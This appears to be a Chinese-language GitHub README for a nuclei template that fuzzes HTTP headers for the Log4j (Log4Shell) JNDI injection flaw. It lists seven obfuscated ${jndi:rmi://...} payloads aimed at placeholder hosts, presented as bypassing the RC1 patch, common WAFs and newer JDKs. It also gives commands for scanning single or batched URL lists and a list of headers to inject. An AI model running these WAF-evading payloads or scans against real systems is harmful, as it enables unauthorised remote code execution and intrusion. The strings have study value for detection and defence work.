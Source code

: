 # log4j-fuzz-head-poc轻量级检测
针对 log4j来批量fuzzz 请求头检测，有效检测一些头部存在的安全风险，nuclei默认使用interactsh的dnslog

为什么用这种，这种方法也是从蜜罐中获取到攻击组织最常用的方法，简单，有效

### v2版本
添加了绕过rc1的poc
也同时能绕过常见主流waf拦截，还有高版本jdk绕过
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```


# 使用
```
/nuclei -t log4j-fuzz-head-poc.yaml -u http://www.test.com  -o res.txt  -rl 10 单个检测  速率为10（速率不要太高）

/nuclei -t log4j-fuzz-head-poc.yaml -l urls.txt  -o res.txt   -rl 10   批量检测  速率为10（速率不要太高）
```

![image](https://user-images.githubusercontent.com/50769953/145665694-21632dd2-7336-474b-80ed-9cdba4919898.png)

* X-Client-IP
* X-Remote-IP
* X-Remote-Addr
* X-Forwarded-For
* X-Originating-IP
* User-Agent
* Referer
* CF-Connecting_IP
* True-Client-IP
* X-Forwarded-For
* Originating-IP
* X-Real-IP
* X-Client-IP
* Forwarded
* Client-IP
* Contact
* X-Wap-Profile
* X-Api-Version

